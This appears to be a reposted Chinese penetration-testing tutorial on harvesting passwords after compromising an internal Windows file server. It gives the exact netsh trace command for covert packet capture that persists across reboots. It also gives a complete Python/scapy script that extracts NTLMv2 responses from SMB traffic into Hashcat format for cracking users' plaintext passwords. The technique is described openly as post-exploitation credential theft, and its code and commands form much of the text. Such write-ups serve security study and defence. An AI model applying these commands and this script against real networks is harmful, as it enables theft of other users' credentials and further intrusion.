







# 渗透技巧——利用 netsh 抓取连接文件服务器的 NTLMv2 Hash - 先知社区

渗透技巧——利用 netsh 抓取连接文件服务器的 NTLMv2 Hash

- - -

## 0x00 前言

在上篇文章《Windows 下的密码 hash——NTLM hash 和 Net-NTLM hash 介绍》比较了 NTLM hash 和 Net-NTLM hash 的区别，本文将继续对 Net-NTLM hash 在内网渗透中的应用作介绍，解决一个有趣的问题：

**如果获得了内网一个文件服务器的权限，如何获得更多用户的口令？**

## 0x01 简介

本文将要介绍以下内容：

-   在 windows 平台下不安装任何第三方依赖库来进行网络抓包的方法
-   将数据包转换成 pcap 格式
-   使用 Wireshark 对数据包进行分析
-   编写 Python 提取出 NTLMv2 Hash
-   使用 Hashcat 对 Hash 进行破解

## 0x02 解决思路

- - -

《Windows 下的密码 hash——NTLM hash 和 Net-NTLM hash 介绍》中提到，客户端在连接文件服务器时，默认会将当前登录用户的密码 Hash 发送至服务器进行验证，如果验证失败，需要重新输入登录用户名和口令

如果获得了内网一个文件服务器的权限，那么内网中的其他主机在使用界面尝试访问该服务器时，首先会将本机的密码 Hash 发送至服务器进行验证，在服务器端抓取数据包能够获得 NTLM Response，对 NTLM Response 的格式进行解析，提取特定信息，使用 Hashcat 尝试字典破解或者暴力破解，就有可能还原出用户本机的明文口令

所以，接下来需要解决第一个问题： **如何在文件服务器上抓取数据包？**

## 0x03 Windows 平台下进行网络抓包的方法

- - -

最常用的方法当然是安装 Wireshark，但如果能找到一种不安装任何第三方依赖库、系统自带、直接用来抓包的方法岂不是更好？

方法当然是有的。

通过 Windows 系统自带的 netsh 中的 trace 功能能够实现不安装任何第三方依赖库，在命令行下进行抓包

支持 Win7、Server2008R2 及以后的系统，但不支持 Server2008

官方说明文档：

[https://technet.microsoft.com/en-us/library/dd878517%28v=ws.10%29.aspx](https://technet.microsoft.com/en-us/library/dd878517%28v=ws.10%29.aspx)

**注：**

netsh trace 需要管理员权限

使用方法：

### 1.开启记录功能

```plain
netsh trace start capture=yes persistent=yes traceFile="c:\\test\\snmp1.etl" overwrite=yes correlation=no protocol=tcp ipv4.address=192.168.62.130 keywords=ut:authentication
```

参数说明：

-   capture=yes：开启抓包功能
-   persistent=yes：系统重启不关闭抓包功能，只能通过 Netsh trace stop 关闭
-   traceFile：指定保存记录文件的路径
-   overwrite=yes：如果文件存在，那么对其覆盖
-   correlation=no：不收集关联事件
-   protocol=tcp：抓取 TPC 协议
-   ipv4.address=192.168.62.130：限定只抓和服务器 IP 相关的数据包
-   keywords=ut:authentication：关键字为 ut:authentication

加上以上限定参数是为了尽可能减小数据包大小，只筛选出 SMB 协议中同 NTLMv2 认证有关的内容

**注：**

同级目录下会生成系统的配置文件压缩包，后缀名为.cab

### 2.关闭记录功能

```plain
Netsh trace stop
```

关闭功能后，系统会将捕获到的数据包保存为 etl 结尾的文件

演示如下图

[](https://xzfile.aliyuncs.com/media/upload/picture/20180116110157-9d6aa866-fa69-1.png)

### 3.查看 etl 文件

etl 文件无法直接打开，需要借助工具 windows message analyzer 将其转换成.cap 格式 (Wireshark 能够识别)

windows message analyzer 下载地址：

[https://www.microsoft.com/en-us/download/confirmation.aspx?id=44226](https://www.microsoft.com/en-us/download/confirmation.aspx?id=44226)

安装后打开 etl 文件，等待文件识别，识别成功后界面左下角提示`Ready`，如下图

[](https://xzfile.aliyuncs.com/media/upload/picture/20180116110207-a302bce6-fa69-1.png)

### 4.转换成.cap 格式

`File`\-`Save as`\-`Export`，保存成 cap 包格式

使用 Wireshark 打开 cap 包文件，成功读取数据包文件，获得服务器上的数据包

从数据包中能找到 SMB2 协议，如下图

[](https://xzfile.aliyuncs.com/media/upload/picture/20180116110218-a9c6310c-fa69-1.png)

提取其中的一组数据包，还原出 NTLM v2 的关键信息，如下图

[](https://xzfile.aliyuncs.com/media/upload/picture/20180116110225-ae37860a-fa69-1.png)

拼接固定格式： `username::domain:challenge:HMAC-MD5:blob`

使用 Hashcat 进行破解

**注：**

详细破解方法可参考文章《Windows 下的密码 hash——NTLM hash 和 Net-NTLM hash 介绍》，本文不再演示

如果手动组装多个 NTLM v2 响应包，费事费力，所以需要编写程序自动解析数据包，提取出 Hashcat 可用的 NTLM v2 内容

这就是第二个问题： **如何通过程序实现自动解析数据包，提取 NTLM v2 的内容？**

## 0x04 通过程序实现自动解析数据包

- - -

开发语言：python

python 模块：scapy

说明地址：

[https://github.com/invernizzi/scapy-http](https://github.com/invernizzi/scapy-http)

安装：

```plain
easy_install scapy
easy_install scapy_http
```

scapy 能够解析 pcap 数据包，所以在使用前，先使用 Wireshark 将.cap 包转换成 pcap 包

scapy 示例代码如下：

```plain
try:
    import scapy.all as scapy
except ImportError:
    import scapy

try:
    # This import works from the project directory
    import scapy_http.http
except ImportError:
    # If you installed this package via pip, you just need to execute this
    from scapy.layers import http

packets = scapy.rdpcap('test.pcap')
for p in packets:
    print('=' * 78)
    p.show()
```

自动解析出每个数据包的格式，分为 Ethernet、IP、TCP 和 Raw，如下图

[](https://xzfile.aliyuncs.com/media/upload/picture/20180116110239-b63493ca-fa69-1.png)

程序开发思路：

1.对目的端口进行判断，选出 SMB 协议的数据包  
2.筛选出 NTLMv2 Response 数据包  
3.通过当前数据包获得 username、domain、HMAC-MD5 和 blob  
4.通过前一数据包获得 Server challenge

具体实现：

#### 1.选出 SMB 协议的数据包

目的端口为 445

```plain
packets[p]['TCP'].dport == 445
```

#### 2.筛选出 NTLMv2 Response 数据包

TCP payload 包含特殊字符串 NTLMSSP

```plain
packets[p]['Raw'].load.find('NTLMSSP') != -1
```

#### 3.获得通过当前数据包获得 username、domain、HMAC-MD5 和 blob

HMAC-MD5 和 blob 为固定位置，直接通过固定偏移即可获得

username 和 domain 为固定格式，2 字节表示 Length，2 字节表示 Maxlen，4 字节表示偏移，值得注意的 2 字节长度实际上为 int 型数据，在读取时高低位要互换

例如读取出 16 进制数据为 4601，实际计算的是 0146 转换成 10 进制的值，为 326

```plain
DomainLength1 = int(TCPPayload[Flag+28:Flag+28+1].encode("hex"),16)
DomainLength2 = int(TCPPayload[Flag+28+1:Flag+28+1+1].encode("hex"),16)*256                             
DomainLength = DomainLength1 + DomainLength2
```

domain 以 Unicode 格式保存，需要转换成 ascii，具体实现是把字符串转换成数组，只取奇数位

```plain
DomainName = [DomainNameUnicode[i] for i in range(len(DomainNameUnicode)) if i%2==0]
DomainName = ''.join(DomainName)
```

完整实现代码如下：

```plain
#!/usr/bin/env python
try:
      import scapy.all as scapy
except ImportError:
      import scapy

try:
    # This import works from the project directory
      import scapy_http.http
except ImportError:
    # If you installed this package via pip, you just need to execute this
      from scapy.layers import http

packets = scapy.rdpcap('6.pcap')
Num = 1
for p in range(len(packets)):
      try:
            if packets[p]['TCP'].dport ==445:
                  TCPPayload = packets[p]['Raw'].load

                  if TCPPayload.find('NTLMSSP') != -1:
                        if len(TCPPayload) > 500:       
                              print ("----------------------------------Hashcat NTLMv2 No.%s----------------------------------"%(Num))
                              Num = Num+1
                              print ("PacketNum: %d"%(p+1))
                              print ("src: %s"%(packets[p]['IP'].src))
                              print ("dst: %s"%(packets[p]['IP'].dst))
                              Flag = TCPPayload.find('NTLMSSP')

                              ServerTCPPayload = packets[p-1]['Raw'].load

                              ServerFlag = ServerTCPPayload.find('NTLMSSP')
                              ServerChallenge = ServerTCPPayload[ServerFlag+24:ServerFlag+24+8].encode("hex")
                              print ("ServerChallenge: %s"%(ServerChallenge))


                              DomainLength1 = int(TCPPayload[Flag+28:Flag+28+1].encode("hex"),16)
                              DomainLength2 = int(TCPPayload[Flag+28+1:Flag+28+1+1].encode("hex"),16)*256                             
                              DomainLength = DomainLength1 + DomainLength2
                              #print DomainLength
                              DomainNameUnicode = TCPPayload[Flag+88:Flag+88+DomainLength]
                              DomainName = [DomainNameUnicode[i] for i in range(len(DomainNameUnicode)) if i%2==0]
                              DomainName = ''.join(DomainName)
                              print ("DomainName: %s"%(DomainName))                                                          

                              UserNameLength1 = int(TCPPayload[Flag+36:Flag+36+1].encode("hex"),16)
                              UserNameLength2 = int(TCPPayload[Flag+36+1:Flag+36+1+1].encode("hex"),16)*256                             
                              UserNameLength = UserNameLength1 + UserNameLength2
                              #print UserNameLength
                              UserNameUnicode = TCPPayload[Flag+88+DomainLength:Flag+88+DomainLength+UserNameLength]
                              UserName = [UserNameUnicode[i] for i in range(len(UserNameUnicode)) if i%2==0]
                              UserName = ''.join(UserName)
                              print ("UserName: %s"%(UserName))  

                              NTLMResPonseLength1 = int(TCPPayload[Flag+20:Flag+20+1].encode("hex"),16)
                              NTLMResPonseLength2 = int(TCPPayload[Flag+20+1:Flag+20+1+1].encode("hex"),16)*256
                              NTLMResPonseLength = NTLMResPonseLength1 + NTLMResPonseLength2                             
                              #print NTLMResPonseLength                                                         
                              NTLMResPonse = TCPPayload[Flag+174:Flag+174+NTLMResPonseLength].encode("hex")                                       
                              #print NTLMResPonse
                              print "Hashcat NTLMv2:"
                              print ("%s::%s:%s:%s:%s"%(UserName,DomainName,ServerChallenge,NTLMResPonse[:32],NTLMResPonse[32:]))

      except:
            pass
```

执行后程序输出如下图

[](https://xzfile.aliyuncs.com/media/upload/picture/20180116110303-c4a20852-fa69-1.png)

接着使用 Hashcat 进行破解即可

## 0x05 补充

- - -

对于文件服务器，如果开启了 NetBIOS over TCP/IP，那么禁用445端口后，系统会尝试使用139端口进行连接

测试如下：

服务器禁用 445 端口，开启 139 端口

客户端尝试连接，SMB 协议使用 139 端口，抓包如下图

[](https://xzfile.aliyuncs.com/media/upload/picture/20180116110311-c991b8da-fa69-1.png)

如果禁用了 NetBIOS over TCP/IP，那么禁用445端口后，无法使用文件共享

## 0x06 小结

- - -

本文解决了在获得内网一个文件服务器的权限后，获得更多用户的口令的问题。

通过 Windows 命令行抓包获得 SMB 协议内容，编写程序自动提取 NTLMv2 Hash，使用 Hashcat 进行破解，有可能还原出用户本机的明文口令
